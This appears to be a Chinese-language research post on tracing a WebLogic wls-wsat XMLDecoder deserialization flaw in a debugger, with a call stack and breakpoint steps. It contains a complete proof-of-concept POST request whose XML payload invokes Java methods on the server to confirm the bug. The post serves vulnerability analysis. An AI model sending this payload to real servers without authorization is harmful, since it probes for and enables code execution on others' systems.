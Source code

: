 weblogic的漏洞中反序列化占大头，反序列化漏洞大体上又分为两类，一类是T3协议，另一类也是T3是XMLDeocder。此外，还有xxe、文件上传等等漏洞。

weblogic 单步调试


先获取xray 一份poc(网上其他任意poc均可)，burp发包，响应里显示了java调用栈，获取 gadget(调用链)。


	POST /wls-wsat/CoordinatorPortType HTTP/1.1
	Host: 172.16.1.9:7001
	Content-Type: text/xml
	Content-Length: 875
	
	<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java><void class="java.lang.Thread" method="currentThread"><void method="getCurrentWork"><void method="getResponse"><void method="getServletOutputStream"><void method="write"><array class="byte" length="9"><void index="0"><byte>50</byte></void><void index="1"><byte>50</byte></void><void index="2"><byte>53</byte></void><void index="3"><byte>55</byte></void><void index="4"><byte>55</byte></void><void index="5"><byte>51</byte></void><void index="6"><byte>48</byte></void><void index="7"><byte>57</byte></void><void index="8"><byte>49</byte></void></array></void><void method="flush"/></void></void></void></void></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope></soapenv:Envelope>



![](1.jpg)

这个poc 如果出现 225773091 代表存在漏洞。记录gadget，这里我直接复制大佬贴的调用栈，实际行号可能有出入。



	processRequest:43, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
	__doRun:866, Fiber (com.sun.xml.ws.api.pipe)
	_doRun:815, Fiber (com.sun.xml.ws.api.pipe)
	doRun:778, Fiber (com.sun.xml.ws.api.pipe)
	runSync:680, Fiber (com.sun.xml.ws.api.pipe)
	process:403, WSEndpointImpl$2 (com.sun.xml.ws.server)
	handle:539, HttpAdapter$HttpToolkit (com.sun.xml.ws.transport.http)
	handle:253, HttpAdapter (com.sun.xml.ws.transport.http)
	handle:140, ServletAdapter (com.sun.xml.ws.transport.http.servlet)
	handle:171, WLSServletAdapter (weblogic.wsee.jaxws)
	run:708, HttpServletAdapter$AuthorizedInvoke (weblogic.wsee.jaxws)
	doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
	runAs:146, SecurityManager (weblogic.security.service)
	authenticatedInvoke:103, ServerSecurityHelper (weblogic.wsee.util)
	run:311, HttpServletAdapter$3 (weblogic.wsee.jaxws)
	post:336, HttpServletAdapter (weblogic.wsee.jaxws)
	doRequest:99, JAXWSServlet (weblogic.wsee.jaxws)
	service:99, AbstractAsyncServlet (weblogic.servlet.http)
	service:820, HttpServlet (javax.servlet.http)
	run:227, StubSecurityHelper$ServletServiceAction (weblogic.servlet.internal)
	invokeServlet:125, StubSecurityHelper (weblogic.servlet.internal)
	execute:301, ServletStubImpl (weblogic.servlet.internal)
	execute:184, ServletStubImpl (weblogic.servlet.internal)
	wrapRun:3732, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
	run:3696, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
	doAs:321, AuthenticatedSubject (weblogic.security.acl.internal)
	runAs:120, SecurityManager (weblogic.security.service)
	securedExecute:2273, WebAppServletContext (weblogic.servlet.internal)
	execute:2179, WebAppServletContext (weblogic.servlet.internal)
	run:1490, ServletRequestImpl (weblogic.servlet.internal)
	execute:256, ExecuteThread (weblogic.work)
	run:221, ExecuteThread (weblogic.work)


IDEA 开启debug远程调试。添加了 weblogic.jar 到library，根据上面的调用栈

	handle:171, WLSServletAdapter (weblogic.wsee.jaxws)

直接在 weblogic.jar!weblogic.wsee.jaxws.WLSServletAdapter的129行下断点。

![](2.jpg)

因为 poc 是 POST请求，所以不会进入这个if，走下面 141行的handle。

点击handle发现进不去，应该是没添加源码到library，super.handle()表示调用这个类的父类里的handle()方法，在当前类 WLSServletAdapter 拉到最上面，看看它import里有没有有用的信息，因为jar包太多了，我想知道这个类是由哪个jar包负责的。

![](3.jpg)

于是我就搜索 ServletAdapter,看到了import它的class:

![](4.jpg)

定位了这个class

```com.sun.xml.ws.transport.http.servlet.ServletAdapter```

通过一款神器，SearchClassInJar.jar ，根据class名称在 文件夹里找 调用的jar。

	java -jar SearchClassInJar.jar com.类名 文件夹名

效果立竿见影，节省不少时间。

![](5.jpg)

接下来就是把这个jar包添加到library，(File-Project Structure-Modules-Dependencies-添加jar)就可以进入handle() 了。

![](6.jpg)

还有一层，继续跟进，

![](7.jpg)

我们的请求是 POST请求，不走这个if，直接跳到152行。







那么问题来了，最开始是如何在129行打断点的？可以用逆推法。在最后一个方法处打断点。

## 参考资料


https://paper.seebug.org/487/

http://cache.baiducontent.com/c?m=9f65cb4a8c8507ed19fa950d100b96314a0fdb743ca1804b22818448e435061e5a3dbfed70680704a48726251caf4b5fe1ed35722a012aaa90c89f4aaae1d477719c6269304a8904458347f29e1d74d620e14d99a80e93bfe743e0b9a4d5c85422c951057f83&p=8d6dc64ad4934eab1bac8f211e&newp=8a759a41878912a05aa9df275a53d8224216ed643ad1c44324b9d71fd325001c1b69e7b125231405d6ce7d6304a84d58eaf33678341766dada9fca458ae7c47965&user=baidu&fm=sc&query=weblogic+%B5%F7%CA%D4+10271&qid=bec2228e00002033&p1=11

https://blog.csdn.net/weixin_38170561/article/details/99877671